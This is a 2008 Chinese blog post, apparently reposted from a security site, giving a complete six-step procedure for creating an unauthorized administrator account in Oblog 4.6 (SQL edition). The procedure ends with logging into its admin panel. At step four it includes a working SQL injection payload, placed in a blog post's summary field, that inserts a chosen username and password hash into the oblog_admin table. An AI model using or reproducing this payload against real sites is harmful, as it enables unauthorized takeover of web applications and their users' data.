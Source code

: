 ```yaml
---
title: Oblog4.6添加后台管理员漏洞(仅适用于sql版)
description: 最近夜火我收集的软件，安全工具等信息比较多，漏洞方面的很久没收集了，最重要的是技术有限。。。。看不懂的一些漏洞什么的，就直接pass掉了。今天这个是Oblog4.6添加后台管理员漏洞，仅适用于sql版，有完整利用过程介绍
date: 2008-09-15 10:15:53
category: 漏洞信息
tags: ['Oblog', '漏洞信息']
post_id: 605
alias: Oblog4.6-Add-admin-loopholes
ViewNums: 3312
---
```


最近[夜火](/blog/)我收集的[软件](/tags/%E8%BD%AF%E4%BB%B6)，[安全工具](http://www.15897.com/category/2)等信息比较多，[漏洞](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF)方面的很久没收集了，最重要的是技术有限。。。。看不懂的一些漏洞什么的，就直接pass掉了。

今天这个是[Oblog4.6添加后台管理员漏洞](/blog/oblog46-add-admin-loopholes)，仅适用于sql版，有完整利用过程介绍

1. 注册一个用户，用户名script，密码123456
2. 发布一篇日志，日志标题：测试一下
3. 个人前台首页找到日志"测试一下"，点"推荐"
4. 个人后台管理，选择"常用"选项中的"推荐日志"，然后点"测试一下"日志后面的修改，把摘要内容修改成：s'/**/WHERE/** /logid=1;insert/**/into/**/oblog_admin/**/(username,password,roleid)values('script','49ba59abbe56e057',0);--
5. 最后点"确认提交"按钮，如果提示修改成功，[注入](/tags/%E6%B3%A8%E5%85%A5)完成！
6. 登录后台，地址/admin/admin_login.asp，输入上面的用户名和密码，登录后台成功！

转载请著明来源于0x54.com

